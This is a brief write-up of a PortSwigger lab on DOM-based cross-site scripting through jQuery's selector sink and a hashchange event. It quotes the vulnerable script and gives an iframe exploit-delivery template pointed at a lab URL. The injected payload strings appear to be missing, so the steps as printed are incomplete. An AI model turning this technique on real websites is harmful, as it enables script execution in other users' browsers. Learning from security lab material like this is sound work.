




# DOM XSS in jQuery selector sink using a hashchange event

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

## To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

---

### step 1

open lab
view page source

look for jquery code

```javascript
<script>

$(window).on('hashchange', function(){

var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');

if (post) post.get(0).scrollIntoView();

});

</script>
```





test with
`#`



### step2

to solve this lab
you need to use iframe

```javascript
<iframe src="https://vulnerable-website.com#" onload="this.src+=''">
```

change src url with lab url and change alert(1) with print()

```javascript
<iframe src="https://0a1000e504e13d8fc22843dd00560027.web-security-academy.net/#" onload="this.src+=''">
```

put inside exploit page and submit


